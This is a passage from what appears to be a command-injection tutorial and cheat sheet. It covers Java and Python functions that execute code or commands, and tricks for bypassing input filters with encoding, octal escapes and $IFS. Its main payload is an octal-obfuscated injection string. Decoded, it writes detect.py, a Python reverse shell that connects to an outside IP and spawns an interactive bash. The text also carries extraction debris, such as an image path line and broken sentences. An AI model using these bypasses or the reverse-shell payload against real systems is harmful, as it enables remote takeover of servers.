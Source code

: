 ```java
    for(String temp = buff.readLine();temp!=null;temp=buff.readLine()){
      System.out.println(temp); //Output result
    }
  buff .close();
  in.close();
  }
}
```

The above code can be compiled to execute command operations, such as: java RuntimeTest
Whoami", execute command operation

![Insert the picture description here](https://img-blog.csdnimg.cn/20210528084212977.png#pic_center)
# Python

Code execution

```python
exec(string) # Dynamic execution of Python code
eval(string) # Returns the value of an expression or code object
execfile(string) # Read and execute Python scripts from a file
input(string) # In Python2.x, input() is equal to eval(raw_input(prompt)) and is used to obtain the input of the console
compile(string) # Compile the source string into an executable object
```

Command execution

```python
system() # Execute system instructions
popen() # popen() method is used to open a pipeline from a command
subprocess.call # Execute the command provided by the parameter
spawn # Execute the command
```

# Common filtering bypass
## Encoding bypass

If the command-injected website filters certain splitters, you can bypass the delimiter after encoding (url encoding, base64, etc.)

## Octal Bypass

$(printf "\154\163")//ls command, this code can be spliced

```php
//The -. and other symbols are filtered here, and only 0-9a-zA-Z">\\\$() is allowed;
echo$IFS$9$(printf$IFS$9"\163\75\137\137\151\155\160\157\162\164\137\137\50\42\163\157\143\153\145\164\42\51\56\163\157\143\153\145\164\50\1 37\137\151\155\160\157\162\164\137\137\50\42\163\157\143\153\145\164\42\51\56\101\106\137\111\116\105\124\54\137\137\151\155\160\157\162\164 \137\137\50\42\163\157\143\153\145\164\42\51\56\123\117\103\113\137\123\124\122\105\101\115\51\73\163\56\143\157\156\156\145\143\164\50\50\4 2\64\67\56\61\60\60\60\56\61\62\60\56\61\62\63\42\54\62\63\63\63\51\51\73\137\137\151\155\160\157\162\164\137\137\50\42\157\163\42\51\56\144\165 \160\62\50\163\56\146\151\154\145\156\157\50\51\54\60\51\73\137\137\151\155\160\157\162\164\137\137\50\42\157\163\42\51\56\144\165\160\62\50 \163\56\146\151\154\145\156\157\50\51\54\61\51\73\137\137\151\155\160\157\162\164\137\137\50\42\157\163\42\51\56\144\165\160\62\50\163\56\14 6\151\154\145\156\157\50\51\54\62\51\73\160\75\137\137\151\155\160\157\162\164\137\137\50\42\163\165\142\160\162\157\143\145\163\163\42\51\5 6\143\141\154\154\50\133\42\57\142\151\156\57\142\141\163\150\42\54\42\55\151\42\135\51\73")>$(printf$IFS$9"\57")detect$(printf$IFS$9"\56")py
echo 'python rebound shell payload' /detect.py
```
